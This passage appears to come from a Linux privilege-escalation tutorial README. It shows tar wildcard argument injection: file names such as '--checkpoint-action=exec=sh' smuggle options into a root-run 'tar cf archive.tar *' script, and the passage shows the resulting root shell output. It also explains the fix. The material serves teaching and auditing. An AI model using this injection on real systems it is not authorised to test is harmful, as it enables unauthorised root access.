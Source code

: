 __Note__: If you have more binary example, do not hesitate to open an issue explaining the technic and I will add it on the list. 

Having sudo access on these binaries do not mean you could always manage to execute commands on the system. For example, using the __mount__ binary with a limited user could give you the following well known error, if it's well configured:  

```
mount: only root can use "--options" option
```

Wildcards
----

If you have never heard about Unix wildcards, I suggest you read this very well explained [article](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt).
Using wildcards could lead into code execution if this one is not well called. 

For our example, we want to get a shell ("sh") using the __tar__ command to execute code on the server. As explained on the GTFOBins section, we could get it doing: 
```
tar cf archive.tar * --checkpoint=1 --checkpoint-action=exec=sh
```
We consider a test file which is used to realize an archive of all files present on the directory. 
```
user@host:~$ cat test.sh 
tar cf archive.tar * 
```
Here are the steps to exploit this bad configuration: 
* open nano (with no arguments)
* write something in it
* save file using __tar__ arguments as file names: 
	* --checkpoint-action=exec=sh
	* --checkpoint=1

Once created, this is what you will find: 
```
user@host:~$ ls -la 
total 32
-rw-r--r-- 1 user user     5 Jan 12 10:34 --checkpoint-action=exec=sh
-rw-r--r-- 1 user user     3 Jan 12 10:33 --checkpoint=1
drwxr-xr-x 2 user user  4096 Jan 12 10:34 .
drwxr-xr-x 7 user user  4096 Jan 12 10:29 ..
-rwxr-xr-x 1 user user    22 Jan 12 10:32 test.sh
```
If this file is executed as root (from cron table, from sudoers, etc.), you should gain root access on the system. 

```
user@host:~$ sudo ./test.sh 
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
```
So depending on which binary and how the wildcard are used, the exploitation can be done or not. So on our example, the exploitation would not work anymore if the file would be like this: 
```
user@host:~$ cat test.sh 
tar cf archive.tar *.txt
```
Thus, using a tool to detect these misconfigurations is very difficult. A manually analyse should be done to check if it's a false positive or not. 
